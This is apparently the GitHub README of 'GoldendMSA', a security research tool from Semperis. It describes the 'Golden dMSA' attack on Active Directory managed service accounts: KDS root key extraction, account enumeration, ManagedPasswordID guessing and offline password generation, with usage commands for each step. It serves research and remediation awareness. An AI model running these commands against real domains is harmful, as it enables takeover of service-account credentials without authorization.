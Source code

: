 # Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 

Additional information is avaiable in this post [title](https://url).


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA folder.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```
![image](assets/Wordlist.jpg)


Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```
![image](assets/Info.jpg)


Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```
![image](assets/Kds.jpg)


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```
![image](assets/Bruteforce.jpg)

## License

Disclaimer: This project is licensed under the terms of the BSD 3-Clause license, and is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, Semperis does not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.

## Reference

- https://github.com/Semperis/GoldenGMSA
